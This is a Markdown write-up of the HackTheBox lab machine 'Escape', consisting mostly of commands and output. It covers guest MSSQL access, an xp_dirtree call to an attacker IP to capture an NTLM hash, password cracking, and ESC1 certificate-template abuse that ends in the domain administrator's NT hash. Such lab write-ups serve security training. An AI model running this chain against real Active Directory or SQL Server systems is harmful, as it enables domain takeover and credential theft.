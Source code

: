 ```yaml
---
title: HackTheBox-Escape
date: 2024-12-24 23:20:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [MSSQL, ESC1]     # TAG names should always be lowercase
---
```


## SMB-enum
    ➜  escape nxc smb 10.10.11.202
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)

    ➜  escape smbclient -L \\DC
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Public          Disk      
            SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.


    For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with
    user PublicUser and password GuestUserCantWrite1 .

## MSSQL

    ➜  escape nxc mssql DC -u 'PublicUser' -p 'GuestUserCantWrite1' --local-auth
    MSSQL       10.10.11.202    1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
    MSSQL       10.10.11.202    1433   DC               [+] DC\PublicUser:GuestUserCantWrite1 

### access as guest

    ➜  escape impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
    [*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (PublicUser  guest@master)> 

### MSSQL-enum-abuse

    SQL (PublicUser  guest@master)> SELECT name FROM master.dbo.sysdatabases;
    name     
    ------   
    master   

    tempdb   

    model    

    msdb

    those are all default databases


    ------------   -----   ----   
    SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.4\share', 1, 1
    subdirectory   depth   file   
    ------------   -----   ----
### crack hash

    ➜  escape john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REGGIE1234ronnie (sql_svc) 

## winrm-enum


    2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
    2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'

## ADCS

    ➜  escape nxc ldap DC -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.202    636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
    ADCS        10.10.11.202    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
    ADCS        10.10.11.202    389    DC               Found PKI Enrollment Server: dc.sequel.htb
    ADCS        10.10.11.202    389    DC               Found CN: sequel-DC-CA

### find vuln

    ➜  escape certipy-ad find -u Ryan.Cooper -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled


    ➜  escape cat 20241224072819_Certipy.txt
    Certificate Authorities
    0
        CA Name                             : sequel-DC-CA
        DNS Name                            : dc.sequel.htb
        Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
        Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
        Certificate Validity Start          : 2022-11-18 20:58:46+00:00
        Certificate Validity End            : 2121-11-18 21:08:46+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
        Owner                             : SEQUEL.HTB\Administrators
        Access Rights
            ManageCertificates              : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            ManageCa                        : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            Enroll                          : SEQUEL.HTB\Authenticated Users
    Certificate Templates
    0
        Template Name                       : UserAuthentication
        Display Name                        : UserAuthentication
        Certificate Authorities             : sequel-DC-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : PublishToDs
                                            IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Client Authentication
                                            Secure Email
                                            Encrypting File System
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 10 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
        Enrollment Permissions
            Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Domain Users
                                            SEQUEL.HTB\Enterprise Admins
        Object Control Permissions
            Owner                           : SEQUEL.HTB\Administrator
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
        [!] Vulnerabilities
        ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

## ESC1

    ➜  escape certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 14
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

OR OR OR

    ➜  escape certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID

### crack-certipy-hash

    ➜  escape ntpdate -q sequel.htb
    2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap

#### faketime

    ➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sequel.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee

